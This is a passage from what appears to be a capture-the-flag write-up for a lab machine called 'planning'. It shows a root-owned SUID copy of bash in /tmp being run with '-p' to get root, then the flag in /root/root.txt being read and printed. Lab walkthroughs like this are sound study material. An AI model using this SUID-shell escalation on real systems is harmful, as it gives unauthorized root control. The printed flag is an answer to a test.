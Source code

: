 Then checking our `/tmp/bash` file.

```bash
enzo@planning:/tmp$ ls -la
total 1472
drwxrwxrwt 14 root root    4096 Aug 18 16:01 .
drwxr-xr-x 22 root root    4096 Apr  3 14:40 ..
-rwsr-xr-x  1 root root 1446024 Aug 18 16:01 bash
-rw-r--r--  1 root root       0 Aug 18 16:01 EDUmC71YQOtzUMed.stderr
-rw-r--r--  1 root root       0 Aug 18 16:01 EDUmC71YQOtzUMed.stdout
drwxrwxrwt  2 root root    4096 Aug 18 13:48 .font-unix
drwxrwxrwt  2 root root    4096 Aug 18 13:48 .ICE-unix
drwx------  3 root root    4096 Aug 18 14:18 systemd-private-c2da187b5da84a92a1c1f7cda9dc0cd8-fwupd.service-d4n06q
drwx------  3 root root    4096 Aug 18 13:48 systemd-private-c2da187b5da84a92a1c1f7cda9dc0cd8-ModemManager.service-BAcFBI
drwx------  3 root root    4096 Aug 18 13:48 systemd-private-c2da187b5da84a92a1c1f7cda9dc0cd8-polkit.service-ABmT9p
drwx------  3 root root    4096 Aug 18 13:48 systemd-private-c2da187b5da84a92a1c1f7cda9dc0cd8-systemd-logind.service-8o8GKi
drwx------  3 root root    4096 Aug 18 13:48 systemd-private-c2da187b5da84a92a1c1f7cda9dc0cd8-systemd-resolved.service-4ufG0y
drwx------  3 root root    4096 Aug 18 13:48 systemd-private-c2da187b5da84a92a1c1f7cda9dc0cd8-systemd-timesyncd.service-Q4VFnC
drwx------  3 root root    4096 Aug 18 14:18 systemd-private-c2da187b5da84a92a1c1f7cda9dc0cd8-upower.service-kv6vPm
drwx------  2 root root    4096 Aug 18 13:49 vmware-root_736-2991268455
drwxrwxrwt  2 root root    4096 Aug 18 13:48 .X11-unix
drwxrwxrwt  2 root root    4096 Aug 18 13:48 .XIM-unix
-rw-r--r--  1 root root       0 Aug 18 16:02 YvZsUUfEXayH6lLj.stderr
-rw-r--r--  1 root root       0 Aug 18 16:02 YvZsUUfEXayH6lLj.stdout
```

We can see that we have `bash` file with SUID bit. <br>
&rarr; Let's execute it.

```bash
enzo@planning:/tmp$ /tmp/bash -p
bash-5.2# id
uid=1000(enzo) gid=1000(enzo) euid=0(root) groups=1000(enzo)
```

Now we are `root` user.

```bash
bash-5.2# cd /root
bash-5.2# ls -la
total 44
drwx------  7 root root 4096 Aug 18 13:49 .
drwxr-xr-x 22 root root 4096 Apr  3 14:40 ..
lrwxrwxrwx  1 root root    9 Feb 28 20:41 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr 22  2024 .bashrc
drwx------  2 root root 4096 Apr  1 11:08 .cache
-rw-------  1 root root   20 Apr  3 15:18 .lesshst
drwxr-xr-x  3 root root 4096 Jul  3 11:08 .local
drwxr-xr-x  4 root root 4096 Feb 28 19:01 .npm
-rw-r--r--  1 root root  161 Apr 22  2024 .profile
-rw-r-----  1 root root   33 Aug 18 13:49 root.txt
drwxr-xr-x  2 root root 4096 Apr  3 12:54 scripts
drwx------  2 root root 4096 Feb 28 16:22 .ssh
bash-5.2# cat root.txt
349832e741e351d7b08334050d294b2b
```
